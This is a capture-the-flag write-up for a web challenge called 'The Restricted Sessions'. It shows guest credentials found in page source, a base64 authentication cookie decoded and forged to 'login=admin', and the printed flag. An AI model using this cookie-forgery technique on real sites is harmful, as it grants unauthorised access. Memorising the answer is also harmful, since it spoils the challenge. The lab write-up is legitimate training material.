 # Challenge Name:
 [*The Restricted Sessions*](https://cybertalents.com/challenges/web/the-restricted-sessions)
 
# Challenge Description
Flag is restricted to logged users only , can you be one of them.

Link: [http://34.76.107.218/whoami/](http://34.76.107.218/whoami/)

## Answer
* Open inspect from (ctrl + shift + c) then scroll down ther is an account details
```
			Guest Account:
			-=-=-=-=-=-=-=-
			Username:Guest
		    Password:Guest  
```
* Use above data to Login 
* Using Burbsuit or cookie-editor to see cookies
```
Authentication=bG9naW49R3Vlc3Q%3D
```
* From URL encode "%3d" implies "=" so current cookies equal "bG9naW49R3Vlc3Q=" (Base64 decode)
* Decode base64 using linux command
```bash
echo 'bG9naW49R3Vlc3Q=' | base64 -d
login=Guest
```
* Now we want to change 'Guest' to 'admin' then encode it
```bash
echo 'login=admin' | base64
bG9naW49YWRtaW4K
```
* If you try it using Guest instead of admin you will see that it ends in 'k' but in cookies he remove it then appeand '=' (in URL encode '%3d')
* Change website cookies to what we have generate (bG9naW49YWRtaW4%3D)
* Reload the page
* You got the password!!


 ## The Flag
 > FLag{B@D_4uTh1Nt1C4Ti0n}  
